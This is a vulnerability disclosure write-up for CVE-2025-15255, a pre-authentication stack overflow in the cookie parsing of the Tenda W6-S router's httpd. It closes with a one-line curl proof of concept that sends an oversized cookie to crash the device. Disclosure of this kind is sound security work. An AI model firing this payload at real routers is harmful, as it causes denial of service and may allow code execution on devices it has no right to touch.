

# Tenda W6-S R7websSecurityHandler Pre-authentication Stack Overflow

## Description

The **R7websSsecurityHandler** component in `/bin/httpd` is vulnerable to a pre-authentication stack overflow via the cookie header which allows a remote attacker to hijack execution flow or cause DoS.

## Details

*   **Vendor**: Tenda

*   **Product**: Tenda W6-S

*   **Firmware Version**: V1.0.0.4(510)

*   **Firmware Download**: https://www.tenda.com.cn/material/show/2627


*   **Component**: `R7websSecurityHandler` (responsible for auth and session handling)

*   **Vulnerability Type**: Buffer Overflow (CWE-120) and Memory Corruption (CWE-119)

*   **CVE ID**: CVE-2025-15255

*   **Reported by**: Charbel

## Technical Breakdown

The vulnerability exists in the `R7websSecurityHandler` function, specifically the part responsible for parsing the cookie header and that code runs before any authentication or session checks.

We can see the vulnerable `sscanf` call (highlighted below) which based on the format string is reading everything in the user cookie value until `;`. That's our injection point.


## PoC

To exploit this, all we need to do is send a crafted cookie header to any endpoint

```
curl -v http://172.16.182.130/ -H "Cookie: user=$(python3 -c "print('A' * 800)")
```


